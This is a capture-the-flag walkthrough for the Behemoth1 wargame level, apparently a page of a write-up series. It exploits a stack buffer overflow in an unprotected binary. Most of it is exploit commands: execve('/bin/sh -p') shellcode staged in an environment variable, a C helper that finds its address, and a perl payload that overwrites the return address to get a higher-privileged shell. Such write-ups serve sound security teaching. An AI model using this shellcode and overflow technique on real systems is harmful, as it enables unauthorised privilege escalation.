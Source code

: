 ```bash
[+] checksec for '/behemoth/behemoth1'
Canary                        : ✘
NX                            : ✘
PIE                           : ✘
Fortify                       : ✘
RelRO                         : ✘
```
Running `checksec` on the bianry to show the protections in place, it shows that there are none. Most importantly `NX` (**Non eXecutable stack**) which means we can place some shellcode somewhere on the stack and overwrite the return address with the address of our shellcode to execute it.

### Exploit:
There are a few ways to get shellcode onto the stack, one of which is to write the shellcode before the return address or after the return address within our initial input to the binary. This works well when performing attacks remotely.\
However, as we have access to the machine, we can use another method which involves writing the shellcode into an environment variable, finding the address of the environment variable on the stack, and then overwriting the return address with that address.

To find the address of an environment address on the stack, I use this C script.
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[])
{
  printf("%s is at %p\n", argv[1], getenv(argv[1]));
}
```
Compile the binary.
```bash
gcc -m32 -o /tmp/find_env /tmp/find_env.c
```
Finally, call the binary and pass the name of an environment variable in `argv[1]`.

I am going to use [shellcode](/shellcode/asm-02.html) that spawns a shell using `execve("/bin/sh", ["/bin/sh", "-p"])` to maintain privileges when the shell is spawned.

```bash
behemoth1@behemoth:/behemoth$ export SHELLCODE=$(perl -e 'print "\x90"x20 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x66\x68\x2d\x70\x89\xe1\x50\x51\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
behemoth1@behemoth:/behemoth$ /tmp/find_env SHELLCODE
SHELLCODE is at 0xffffd5a0
behemoth1@behemoth:/behemoth$ ( perl -e 'print "A"x71 . "\xa0\xd5\xff\xff"'; cat; ) | ./behemoth1
whoami
behemoth2
```

---
## Behemoth2 Solution
**Username:** behemoth2\
**Password:** [REDACTED]

